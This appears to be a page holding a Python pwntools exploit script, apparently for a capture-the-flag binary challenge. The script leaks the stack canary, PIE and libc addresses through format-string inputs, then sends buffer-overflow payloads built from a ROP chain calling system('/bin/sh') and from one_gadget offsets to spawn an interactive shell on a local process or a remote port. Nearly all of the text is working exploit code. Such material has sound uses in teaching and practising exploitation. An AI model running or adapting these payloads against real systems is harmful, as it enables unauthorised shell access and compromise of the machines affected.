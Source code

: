 ```python
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft payload to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0] + e.address
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef) # alignment value
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi + 1)
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()

def leaks(r):
  r.sendlineafter(b">", "%p "*100)
  values = r.recvline().split()
  counter = 1
  print("\n")
  for i in values:
    if len(i) > 16 and i.endswith(b"00"):
      print(f"[*] Possible Canary:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x5")):
      print(f"[*] Possible PIE address:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x7f")):
      print(f"[*] Possible LIBC address:\nIndex: {counter} -> {i.decode()}\n")
    counter += 1

def one_gadget(r, offset, canary):
  og = [0x4f3d5, 0x4f432, 0x10a41c]
  payload  = b"A"*offset
  payload += p64(canary)
  payload += p64(0xdeadbeef)
  payload += p64(og[0] + libc.address)
  r.sendlineafter(">", payload)
  r.interactive()

def pwn():
  # Find the overflow offset
  offset = 328#find_boffset(1000)
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  # Uncomment to leak potential addresses
  #leaks(r)

  # Leak libc, PIE and canary
  r.sendlineafter(prompt, "%3$p %46$p %47$p")
  libc_addr, pie_addr, canary = r.recvline().split()
  
  # Calculate libc base from leaked function
  libc.address = int(libc_addr, 16) - 0x110151
  e.address    = int(pie_addr, 16) - (int(pie_addr, 16) & 0xfff)
  canary = int(canary, 16)
  print(colored("[+] Libc base @ " + str(hex(libc.address))))
  print(colored("[+] PIE base  @ " + str(hex(e.address))))
```